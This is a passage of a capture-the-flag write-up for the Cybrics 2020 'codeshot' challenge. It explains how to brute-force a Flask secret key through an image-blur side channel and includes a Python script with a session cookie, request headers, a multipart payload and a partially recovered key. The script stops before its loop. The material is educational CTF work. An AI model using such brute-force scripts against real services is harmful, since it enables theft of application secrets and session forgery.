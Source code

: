 ![Letter](solve/letter.png)

As the filter is applied on a rectangle, we have to pay attention to the line above.
But we found the right combination, so we can start the brute force part.

We test each character to find the good one and repeat it 10 times.

The alphabet can be reduced to [a-z0-9] to make faster tests (based on the partial key).

```python
from PIL import Image
import requests

cookies = {"session": ".eJwlzj0OwjAMQOG7ZGaIY8c_vUyV2I5gbemEuDuVmN8bvk_Z15Hns2zv48pH2V9RtuJhpGp9WfJUgba8z8ptTRYioNVQVyYxoDOJscUSHDClQZCOOsx1uDcEwjr0rirqU7BlzpoQgR00GQOJI5RBWq_EeO_GUW7Idebx1zBZ-f4A6Egurg.XxyuGg._S-bIVLJ1xltFj2Be5YKPB_uxWE"}
headers_post = {"User-Agent": "Mozilla/5.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://codeshot-cybrics2020.ctf.su/profile", "Content-Type": "multipart/form-data; boundary=---------------------------3774721316872016531394040701", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
headers_get = {"User-Agent": "Mozilla/5.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
data = "-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"code\"\r\n\r\nfrom helpers import apply_blur_filter\r\n\r\napp = Flask (__name__)\r\napp.config['UPLOAD_FOLDER'] = 'uploads'\r\napp.config['SECRET_KEY'] = '%s'\r\napp.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///db.sqlite'\napp.config['MAX_CONTENT_LENGTH'] = 500 * 1024 # 500Kb\r\n\r\nBootstrap (app)\r\ndb = SQLAlchemy (app)\r\n-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"is_private\"\r\n\r\n1\r\n-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"x\"\r\n\r\n28\r\n-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"y\"\r\n\r\n3\r\n-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"x_size\"\r\n\r\n10\r\n-----------------------------3774721316872016531394040701\r\nContent-Disposition: form-data; name=\"y_size\"\r\n\r\n2\r\n-----------------------------3774721316872016531394040701--\r\n"

alphabet = "0123456789abcdefghijklmnopqrstuvwxyz"
secret_key = '__________9ftys7dfstf'
sol = ""

```